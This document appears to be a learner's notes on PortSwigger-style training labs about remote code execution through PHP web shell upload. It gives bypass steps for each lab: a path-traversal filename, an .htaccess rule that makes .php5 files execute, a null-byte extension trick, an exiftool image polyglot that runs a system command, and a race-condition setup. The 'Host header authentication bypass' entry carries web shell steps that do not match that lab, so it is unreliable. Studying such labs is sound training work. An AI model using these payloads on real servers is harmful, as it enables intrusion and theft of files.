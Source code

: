 ```
Lab: Remote code execution via web shell upload

APPRENTICE

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. cat /home/carlos/secret

---

```
Lab: Host header authentication bypass

APPRENTICE

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos. 
```

1. Upload webshell.php
2. Change content-type to image/jpeg
3. cat /home/carlos/secret

---

```
Lab: Web shell upload via path traversal

PRACTITIONER

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Look that there are no restriction on the upload file functionnality but the php is not interpreted on the location where the file is uploaded
3. Change the filename to perform path traversal in order to uplaod the file where the php can be interpreted
4. filename="..%2Fwebshell.php"
5. Go to files/webshell.php
6. enjoy your RCE
7. cat /home/carlos/secret


---

```
Lab: Web shell upload via extension blacklist bypass

PRACTITIONER

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Bypass restriciton with .php5
3. Add this extension via .htaccess as executable :
```
filename=".htaccess"
Content-Type : text/plain
AddType application/x-httpd-php .php5
```
4. Reload your webshell and now it's interpreted
5. cat /home/carlos/secret

---

```
Lab: Web shell upload via obfuscated file extension

PRACTITIONER
LAB Not solved

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. See that only JPEG and PNG are allowed
3. Bypass extension verification with : .php%00.png


---

```
Lab: Remote code execution via polyglot web shell upload

PRACTITIONER

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Try to bypass mime type check with :

```bash
exiftool -Comment="<?php echo 'start ' .  system('cat /home/carlos/secret') . ' END'; ?>" dices.png -o polyglot4.php
```

3. Upload polyglot4.php
4. Enjoy RCE

---


```
Lab: Web shell upload via race condition

EXPERT

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Intercept POST request > put it in intruder
2. Intercept GET request > put it in the intruser
3. Sniper mode, null payload, continue indefinitely
4. Run both request (POST/GET) in the same time and look the GET request


---

